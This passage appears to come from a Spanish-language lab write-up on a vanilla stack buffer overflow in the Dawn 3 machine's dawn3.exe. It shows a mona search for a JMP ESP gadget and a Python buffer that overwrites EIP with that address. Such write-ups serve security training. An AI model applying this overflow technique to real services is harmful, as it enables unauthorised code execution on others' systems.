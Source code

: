 ```bash
!mona find -s "\xff\xe4" -m dawn3.exe

0x52501513 : "\xff\xe4" | ascii {PAGE_EXECUTE_READ} [dawn3.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\alexfrancow\Desktop\ExploitingServices\dawn3\dawn3.exe)
```

Ya con la dirección de memoria que interesa (0x52501513), se procede a intentar si al sobreescribir el EIP se puede llegar a realizar un salto a unas 'C's inyectadas. Para ello se formará el siguiente payload:

```python
# 0x52501513 = \x13\x15\x50\x52
buffer = "A"*524  + "\x13\x15\x50\x52"+ "C" * (888 - 524 - 4 - len(badchars))
```

<p align="center"><img src="https://raw.githubusercontent.com/alexfrancow/alexfrancow.github.io/master/images/2021-07-25-Dawn-3-Vanilla-Buffer-Overflow/Pasted%20image%2020210723182901.png" height="500" width="825" /></p>
